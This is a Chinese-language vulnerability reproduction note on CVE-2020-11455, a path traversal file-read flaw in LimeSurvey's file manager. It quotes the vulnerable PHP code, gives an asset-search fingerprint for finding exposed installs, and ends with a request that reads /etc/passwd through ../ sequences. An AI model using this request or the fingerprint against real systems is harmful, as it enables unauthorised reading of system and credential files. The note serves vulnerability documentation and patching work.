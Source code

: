 # LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。 LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

```
LimeSurvey < 4.1.12 + 200324
```

## 网络测绘

```
app="LimeSurvey"
```

## 漏洞复现

登录页面

![](images/202205241501186.png)

出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`

![](images/202205241501266.png)

```
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中

![](images/202205241501030.png)

这里通过 readfile方法 读取文件，登录后台后发送请求

```
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![](images/202205241501923.png)